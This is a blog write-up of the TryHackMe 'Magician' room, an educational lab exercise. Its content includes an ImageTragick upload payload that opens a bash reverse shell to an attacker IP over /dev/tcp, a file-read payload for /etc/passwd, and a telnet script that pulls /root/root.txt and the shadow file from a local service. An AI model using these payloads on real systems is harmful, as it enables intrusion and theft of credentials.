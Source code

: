 ```yaml
---
layout: post
title:  "THM: Magician"
date:   2021-02-22 20:00:00 +1100
category: hacking
---
```


## Magician
*This magical website lets you convert image file formats.*

This is [Magician](https://tryhackme.com/room/magician) from THM. It's easy rated, but it wasn't *that* easy.

## Ports
FTP and two HTTP ports, on 8080 and 8081.  

## FTP
Anonymous login is available, and we get this message:

{% highlight shell %}
──(root💀kali)-[/opt/thm/magician]
└─# ftp magician  
Connected to magician.
220 THE MAGIC DOOR
Name (magician:root): anonymous
331 Please specify the password.
Password:
230-Huh? The door just opens after some time? You're quite the patient one, aren't ya, it's a thing called 'delay_successful_login' in /etc/vsftpd.conf ;) Since you're a rookie, this might help you to get started: https://imagetragick.com. You might need to do some little tweaks though...
230 Login successful.
{% endhighlight %}

Most of the other commands don't seem to work; we can't get a directory listing or download anything, and we can't put anything either. Let's check that website.

## https://imagetragick.com
>TL;DR  
There are multiple vulnerabilities in ImageMagick, a package commonly used by web services to process images. One of the vulnerabilities can lead to remote code execution (RCE) if you process user submitted images. The exploit for this vulnerability is being used in the wild.

I hadn't heard of this before, but it's pretty interesting.

At http://magician:8081/ we have a portal to upload a PNG file for conversion to a JPG, which we can then retrieve at http://magician:8080/files/ (note the different port). The root of http://magician:8080/ is an error page for *Whitelabel*, which is apparently a generic Spring Boot error.

Okay, we can capture our upload with Burp and modify it. It took me some time to figure out, but this payload gives a shell:

{% highlight shell %}
POST /upload HTTP/1.1
Host: magician:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------380246407337907131483672431372
Content-Length: 368
Origin: http://magician:8081
Connection: close
Referer: http://magician:8081/

-----------------------------380246407337907131483672431372

Content-Disposition: form-data; name="file"; filename="pass.png"
Content-Type: image/png

push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.1/someimage.jpg";bash -i >& /dev/tcp/10.9.10.123/1234 0>&1")'
pop graphic-context

-----------------------------380246407337907131483672431372--
{% endhighlight %}

This payload gave a file read:

>push graphic-context  
viewbox 0 0 640 480  
image over 0,0 0,0 'label:@/etc/passwd'  
pop graphic-context  

So that was new and pretty interesting.

## Privesc
We are the user *magician* and we get a message:

>The magician is known to keep a locally listening cat up his sleeve, it is said to be an oracle who will tell you secrets if you are good enough to understand its meows.

With some enumeration we can figure out a server is running on port 6666 on the localhost. We can connect to it with telnet:


{% highlight shell %}
magician@magician:~$ telnet localhost 6666
telnet localhost 6666
Trying 127.0.0.1...
Connected to localhost.
Escape character is '^]'.
GET / HTTP/1.1  
{% endhighlight %}

Note we hit enter *twice* to send this.

We get a reply that includes a trollface; I won't show the whole thing:

{% highlight html %}
HTTP/1.1 200 OK
Server: gunicorn/20.0.4
Date: Mon, 22 Feb 2021 09:53:36 GMT
Connection: close
Content-Type: text/html; charset=utf-8
Content-Length: 2851

<!DOCTYPE html>
<html>
  <head>
    <title>The Magic cat</title>
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <!-- Bootstrap -->
    <link href="//cdnjs.cloudflare.com/ajax/libs/twitter-bootstrap/3.3.7/css/bootstrap.min.css" rel="stylesheet">
  </head>
  <body>
    
<div class="navbar navbar-inverse" role="navigation">
    <div class="container">
        <div class="navbar-header">            
            <a class="navbar-brand" href="/">The Magic cat</a>
        </div>        
    </div>
</div>
<div class="container">
<form action="" method="post"
  class="form" role="form">
<div class="form-group "><label class="control-label" for="filename">Enter filename</label>
{% endhighlight %}

Right, so we've got a POST request with a *filename* variable. I try to interact with it through telnet, but it times out. So it's script time:

{% highlight shell %}
┌──(root💀kali)-[/opt/thm/magician]
└─# cat tel.sh           
echo "open localhost 6666"
sleep 2
echo "POST / HTTP/1.1"
echo "Host: localhost"
echo "Connection: close"
echo "Content-type: application/x-www-form-urlencoded"
echo "Content-length: 23"
echo
echo "filename=/root/root.txt"
echo
echo
sleep 2
{% endhighlight %}

I copy this to the box, make it executable and invoke it like so:

``
telnet> magician@magician:~$ ./tel.sh | telnet
``

This produces the goods, although it is (trivially) encoded; I'll leave that out. I did also use this technique to grab the shadow file (which came hex encoded) but the password for magician at least doesn't want to crack easily. 

So, that was that and I must say it was pretty good. Well done ripcurlz and ms.geeky.
